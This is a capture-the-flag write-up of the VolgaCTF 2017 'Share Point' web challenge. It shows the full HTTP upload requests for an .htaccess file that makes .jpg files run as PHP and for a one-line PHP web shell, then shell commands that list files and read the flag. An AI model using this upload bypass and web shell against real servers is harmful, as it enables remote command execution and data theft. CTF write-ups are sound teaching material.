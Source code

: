 ```yaml
---
title: "VolgaCTF 2017: Share Point - web 200"
date: 2017-03-26T11:22:32+02:00
draft: false
category: Writeup
tags:
    - Web
    - PHP
---
```


Author: [@mjdubell](https://twitter.com/mjdubell)

```
Share Point

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```


The challenge begun by signing in to the control panel by simply entering random account details. Once logged in you had the ability to upload files and share them with an other user. Since the site only had one functionality, uploading files, I assumed the goal had to be to upload a web shell and find the flag on the file system.

Uploading files with a `.php` extension got rejected. I tried some tricks when trying to upload my `shell.php`:

* Chaning the Content Type to `image/jpeg`.
* Injecting null values in the filename `shell.php\00.gif`.
* Uploading a file with the magic headers of a gif file.

Next I tried to upload an `.htaccess` file with the following contents `AddType application/x-httpd-php .jpg`, this would cause `.jpg` files to executed as `.php` files, and it worked!

The following code snippet shows the HTTP POST request from Burp Suite when uploading the `.htaccess` file and the following `shell.php.jpg`. 
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 271
Content-Type: multipart/form-data; boundary=---------------------------1620217569904038223723611436
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------1620217569904038223723611436
Content-Disposition: form-data; name="userFile"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .jpg

-----------------------------1620217569904038223723611436--
```


```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 256
Content-Type: multipart/form-data; boundary=---------------------------5375118911646132755521388984
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------5375118911646132755521388984
Content-Disposition: form-data; name="userFile"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>

-----------------------------5375118911646132755521388984--
```

Once we have uploaded the shell, we can start looking for the flag on the file system.

```
http://share-point.quals.2017.volgactf.ru/files/Smacker1/shell.php.jpg?cmd=ls -lah

total 24K
drwxr-xr-x   2 www-data www-data 4.0K Mar 27 00:05 .
drwxr-xr-x 252 www-data www-data  12K Mar 27 00:04 ..
-rw-r--r--   1 www-data www-data   37 Mar 27 00:04 .htaccess
-rw-r--r--   1 www-data www-data   31 Mar 27 00:05 shell.php.jpg
```

By pure luck I checked the `/opt/` folder and found `flag.txt`. Otherwise I would have simply searched for "flag".

```
http://share-point.quals.2017.volgactf.ru/files/shell.php.jpg?cmd=cat /opt/flag.txt
VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```


